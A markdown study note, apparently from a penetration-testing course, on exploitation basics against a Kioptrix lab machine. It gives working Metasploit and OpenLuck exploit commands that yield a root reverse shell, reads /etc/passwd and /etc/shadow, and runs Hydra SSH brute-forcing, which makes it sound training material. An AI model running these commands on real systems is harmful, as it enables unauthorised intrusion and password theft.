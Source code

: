 # Exploitation Basics

* Shell - gives access to a machine

* Reverse shell - target machine connects to us; we listen to it; commonly used.

* Bind shell - we open up a port on target machine and then connect to it.

* Payloads - code run as an exploit; sent to victim to get shell access.

* Non-staged payload - sends exploit shellcode all at once; larger; does not always work. For example, windows/meterpreter_reverse_tcp.

* Staged payload - sends payload in stages; less stable. For example, windows/meterpreter/reverse_tcp.

* Gaining root with Metasploit:

```shell
msfconsole

search trans2open #name of exploit for Samba

use 1 #use exploit/linux/samba/trans2open

options

set RHOSTS 10.0.2.4

show targets #only one (selected) option, Samba 2.2.x

exploit
#does not work due to default payload (staged), so we stop the process and change our payload to non-staged

set payload linux/x86/shell_reverse_tcp
#similar to previous one, but non-staged

options

exploit
#this gives us shell access of root

whoami
#root

hostname
#kioptrix.level1
```

* Gaining root with manual exploitation:

```shell
mkdir kioptrix

cd kioptrix/

git clone https://github.com/heltonWernik/OpenLuck.git #exploit for mod_ssl

cd OpenLuck/

ls

apt install libssl-dev #install ssl-dev library

gcc -o openluck OpenFuck.c -lcrypto #compile the program

ls #shows openluck executable

./openluck #shows usage
#from enumeration, we know that target is using RedHat Linux and Apache 1.3.20, so we accordingly use the script

./openluck 0x6b 10.0.2.4 -c 40
#executes the script
#now we have access

whoami
#root

cat /etc/passwd
#shows users

cat /etc/shadow
#shows hashed passwords
#both /etc/passwd and /etc/shadow can be combined to decipher the passwords
```

* Brute force attack:

```shell
#using Hydra

hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://10.0.2.4 -t 4 -V
#we want to attack root using unix_passwords.txt wordlist in 4 threads; -V is for verbosity
```

```shell
#using Metasploit

msfconsole

search ssh

use auxiliary/scanner/ssh/ssh_login

options

set username root

set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

set rhosts 10.0.2.4

set threads 5

set verbose true

exploit
```

* Credential stuffing - Injecting breached account credentials in hopes of account takeover; we can do this using Intruder window in Burp Suite.

* Password spraying - Brute force logins based on list of usernames and common passwords; similar to credential stuffing.
